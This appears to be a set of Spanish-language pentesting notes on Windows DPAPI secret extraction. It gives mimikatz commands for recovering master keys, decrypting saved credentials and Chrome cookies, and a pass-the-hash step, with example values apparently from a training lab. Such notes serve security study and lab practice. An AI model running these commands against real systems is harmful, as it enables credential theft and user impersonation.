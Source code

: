 # DPAPI secrets Attack
## Explicación
- DPAPI es un mecanismo de cifrado de datos que se utiliza para proteger los datos del usuario en Windows.
- Aplicaciones como Chrome, Outlook, etc. utilizan DPAPI para proteger las contraseñas.

### Que se necesita para hacer este ataque
- El SID del usuario
- El masterkey del usuario
- La contraseña del usuario
- `C:\users\<user>\appdata\local\microsoft\credentials\<blob>` (blob es un archivo binario que contiene la masterkey cifrada con la contraseña del usuario)
- `C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\` (contiene el masterkey cifrado con la contraseña del usuario)

### Pasos
1. Obtener el SID del usuario: `whoami /user` o `wmic useraccount get name,sid`
2. Obtener el masterkey cifrado con la contraseña del usuario: `C:\users\<user>\appdata\local\microsoft\credentials\<blob>`
3. Obtener el masterkey cifrado con la contraseña del usuario: `C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\`
4. Mimikatz: `dpapi::cred /in:C:\users\<user>\appdata\local\microsoft\credentials\<credential blob>`
- Nos guardamos `guidMasterKey` y `pbData`
- Revisar `c:\users\<user>\appdata\roaming\microsoft\protect\<SID>\` para ver si hay un archivo con el mismo `guidMasterKey`
- Si lo hay, usamos `mimikatz dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /password:<password>`
- `mimikatz dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<MasterKey blob> /rpc`

### Otros comandos
- `sekurlsa::dpapi` conseguimos las masterkeys cifradas con la contraseña del usuario
- Ahora podemos hacer `dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /password:<password>`
- `dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca 0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b`

### Ejemplo:

- `mimikatz sekurlsa::dpapi`: Obtenemos las masterkeys cifradas con la contraseña del usuario
- `sekurlsa::pth /user:epugh /domain:rastalabs.local /ntlm:326457b72c3f136d80d99bdbb935d109 /impersonateprocess`: Nos logeamos como el usuario que tiene la masterkey
- `mimikatz dpapi::masterkey /in:C:\Users\epugh\AppData\Roaming\Microsoft\Protect\S-1-5-21-1396373213-2872852198-2033860859-1151\7dc6a492-36e2-4c2d-be66-ba29d263dda2`: Obtenemos la masterkey cifrada con la contraseña del usuario
- `mimikatz	dpapi::masterkey /in:C:\Users\epugh\AppData\Roaming\Microsoft\Protect\S-1-5-21-1396373213-2872852198-2033860859-1151\7dc6a492-36e2-4c2d-be66-ba29d263dda2 /rpc`: Obtenemos la masterkey cifrada con la contraseña del usuario con rpc, usa el servicio lssass
- `dpapi::cred /in:C:\users\epugh\AppData\Local\Microsoft\Credentials\936A68B5AC87C545C4A22D1AF264C8E9 /masterkey:dcd70638e50e3bcec7cd7fb888399748fea41f9bb137a72a13c98e30ee64469e27a03083256e51f04051a427da9b8c34520fad6c8a486c3f6043ea959026670c` : Obtenemos las credenciales cifradas con la masterkey


### Referencias
- [Fortra](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz)
- [Hack Tricks Wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html?highlight=dpapi#master-keys)
